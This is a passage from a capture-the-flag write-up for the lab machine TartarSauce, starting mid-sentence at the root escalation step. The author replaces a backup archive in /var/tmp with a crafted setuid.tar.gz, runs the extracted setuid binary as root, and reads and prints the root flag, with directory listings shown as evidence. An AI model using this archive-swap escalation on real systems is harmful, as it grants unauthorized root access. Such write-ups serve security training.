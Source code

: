 when . file was created, copy setuid.tar.gz to replace it:

```bash
# rhost
ls -al
cp setuid.tar.gz .61241673532ae3e1586daf4f28fa3a58ccff8c86
# when there are check folder check:
cd check/var/www/html
ls -al1
./setuid
```

Excellent! we have root privilege.  Check the root flag.

```bash
id
whoami
cat /root/root.txt
# flag
812606e4a46344cc79a223a64204c233
```

![[TartarSauce-18.png]]

```bash
onuma@TartarSauce:/var/tmp$ ls -al
total 44
drwxrwxrwt 10 root  root  4096 Sep  7 07:34 .
drwxr-xr-x 14 root  root  4096 May 12 06:55 ..
-rw-r--r--  1 onuma onuma 2700 Sep  7 07:28 setuid.tar.gz
drwx------  3 root  root  4096 May 12 06:55 systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS
drwx------  3 root  root  4096 May 12 06:55 systemd-private-4e3fb5c5d5a044118936f5728368dfc7-systemd-timesyncd.service-SksmwR
drwx------  3 root  root  4096 May 12 06:55 systemd-private-7bbf46014a364159a9c6b4b5d58af33b-systemd-timesyncd.service-UnGYDQ
drwx------  3 root  root  4096 Sep  6 22:57 systemd-private-8fc3d2ba21bb410382e7dcf02ae9fc15-systemd-timesyncd.service-qprLOA
drwx------  3 root  root  4096 May 12 06:55 systemd-private-9214912da64b4f9cb0a1a78abd4b4412-systemd-timesyncd.service-bUTA2R
drwx------  3 root  root  4096 May 12 06:55 systemd-private-a3f6b992cd2d42b6aba8bc011dd4aa03-systemd-timesyncd.service-3oO5Td
drwx------  3 root  root  4096 May 12 06:55 systemd-private-c11c7cccc82046a08ad1732e15efe497-systemd-timesyncd.service-QYRKER
drwx------  3 root  root  4096 May 12 06:55 systemd-private-e11430f63fc04ed6bd67ec90687cb00e-systemd-timesyncd.service-PYhxgX
onuma@TartarSauce:/var/tmp$ ls -al
total 11288
drwxrwxrwt 10 root  root      4096 Sep  7 07:36 .
drwxr-xr-x 14 root  root      4096 May 12 06:55 ..
-rw-r--r--  1 onuma onuma 11511296 Sep  7 07:36 .61241673532ae3e1586daf4f28fa3a58ccff8c86
-rw-r--r--  1 onuma onuma     2700 Sep  7 07:28 setuid.tar.gz
drwx------  3 root  root      4096 May 12 06:55 systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS
drwx------  3 root  root      4096 May 12 06:55 systemd-private-4e3fb5c5d5a044118936f5728368dfc7-systemd-timesyncd.service-SksmwR
drwx------  3 root  root      4096 May 12 06:55 systemd-private-7bbf46014a364159a9c6b4b5d58af33b-systemd-timesyncd.service-UnGYDQ
drwx------  3 root  root      4096 Sep  6 22:57 systemd-private-8fc3d2ba21bb410382e7dcf02ae9fc15-systemd-timesyncd.service-qprLOA
drwx------  3 root  root      4096 May 12 06:55 systemd-private-9214912da64b4f9cb0a1a78abd4b4412-systemd-timesyncd.service-bUTA2R
drwx------  3 root  root      4096 May 12 06:55 systemd-private-a3f6b992cd2d42b6aba8bc011dd4aa03-systemd-timesyncd.service-3oO5Td
drwx------  3 root  root      4096 May 12 06:55 systemd-private-c11c7cccc82046a08ad1732e15efe497-systemd-timesyncd.service-QYRKER
```